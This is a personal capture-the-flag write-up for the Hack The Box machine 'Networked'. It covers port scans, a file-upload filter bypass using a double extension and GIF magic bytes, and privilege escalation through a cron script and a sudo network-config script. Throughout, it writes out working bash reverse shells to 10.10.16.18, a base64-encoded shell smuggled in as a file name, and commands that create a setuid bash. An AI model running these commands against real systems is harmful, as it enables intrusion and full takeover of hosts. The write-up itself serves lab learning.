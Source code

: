 # Enumeration 

## open ports
```
22/tcp   open   ssh        OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:                                                                                                 
|   2048 2275d7a74f81a7af5266e52744b1015b (RSA)                                                                
|   256 2d6328fca299c7d435b9459a4b38f9c8 (ECDSA)
|_  256 73cda05b84107da71c7c611df554cfc4 (ED25519)
80/tcp   open   http       Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp  closed https
3301/tcp open   tarantool?
```
### Port 80
PHP/5.4.16
![[Pasted image 20230206143945.png]]
/backup
![[Pasted image 20230206144558.png]]

![[Pasted image 20230206144607.png]]
Website source code
There is a mime check and extension check
![[Pasted image 20230206162424.png]]

![[Pasted image 20230206162435.png]]
we can try to put php first and if the server is misconfigured it can get executed .php.gif
mime check can be bypassed used magic bytes of one of the allowed extension for example GIF8
![[Pasted image 20230206162604.png]]
![[Pasted image 20230206162620.png]]
and file got uploaded

![[Pasted image 20230206162743.png]]

![[Pasted image 20230206162808.png]]
and we have RCE
```
nc -lvnp 9001

bash -c 'exec bash -i &>/dev/tcp/10.10.16.18/9001 <&1'
```

# Privesc 
![[Pasted image 20230206162908.png]]
running linpeas
![[Pasted image 20230206164010.png]]
inside home/guly there is a cronjob file and php file 


![[Pasted image 20230206165429.png]]

$value value is file names inside $path 
![[Pasted image 20230206165802.png]]
so we can create a file with name of 

trying `touch ;curl 10.10.16.18`
![[Pasted image 20230206170636.png]]
we have a hit

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/10.10.16.18/9005 <&1'" | base64
touch ";echo 'YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTYuMTgvOTAwNSA8JjEnCg==' | base64 -d | bash"
```

![[Pasted image 20230206172401.png]]
![[Pasted image 20230206172448.png]]
![[Pasted image 20230206174844.png]]

inside payloadofallthethings
![[Pasted image 20230206174810.png]]
but there is a filter in the script can't write ;
`sudo /usr/local/sbin/changename.sh`
![[Pasted image 20230206174901.png]]
![[Pasted image 20230206174927.png]]
adding these to values in the script
`eth0 cp /bin/bash /tmp/pwned`
`eth0 chmod 6777 /tmp/pwned`
![[Pasted image 20230206175205.png]]



---
Tags: #ctf #htb #ifcfg #file_upload #filename_rev
Resources:  [Networked](https://app.hackthebox.com/machines/2